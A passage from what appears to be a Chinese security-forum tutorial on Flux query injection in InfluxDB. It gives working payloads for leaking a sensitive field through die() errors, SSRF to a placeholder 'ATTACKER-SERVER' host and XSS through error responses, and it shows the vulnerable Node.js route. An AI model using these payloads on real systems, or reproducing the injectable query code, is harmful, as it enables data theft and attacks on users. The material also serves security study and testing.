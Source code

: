 ```node.js
") |> yield(name: "1337")
 from(bucket: "privateBucket") |> range(start: 0) |> filter(fn: (r) => r._field == "sensitive_field" and die(msg:string(v:r._value)))
 //
```

注意下这里的数据类型！！不然可能会报错(放出为int类型的时候，**因为r.field默认为int类型**)

```cpp
HttpError: runtime error @2:54-2:124: filter: type conflict: string != int
```

![nosql20.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-71a1f1381e9a7fb6173ecfb2ae60be23bb5cb892.png)  
可以看见这里的值为1337

SSRF利用
------

在官方文档中，可以看见influxdb在from函数之中是可以接受host参数的

![nosql21.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9f83df6f2aabe30f01390aa5b5176180c0780d7a.png)  
所以可以构造playload：

```node.js
") |> yield(name: "1337")
 from(bucket: "1337", host:"https://ATTACKER-SERVER") |> range(start:0)
 //
```

XSS利用
-----

看见上面构建的程序

```node.js
app.get('/query', async (req, res) => {
    try {
      const fluxQuery = 'from(bucket:"' + bucket + '") |> range(start: 0)  |> filter(fn: (r) => r._field == "public_field" and r._value == "' + req.query.data + '") '
      result = await query(fluxQuery)

      res.send(result)
    } catch (err) {
      res.send(err.toString())  
    }
});

```

当 InfluxDB 查询中发生错误时，该`try{ } catch{ }`语句会将错误发送回客户端，并使用`Content-Type`equals to `text/html`，允许浏览器加载 HTML 和 JavaScript。  
这个时候我们就可以利用die函数在浏览器上执行xss

```javascript
") die(msg:"<img src=x onerror=alert(document.domain)>")//
```
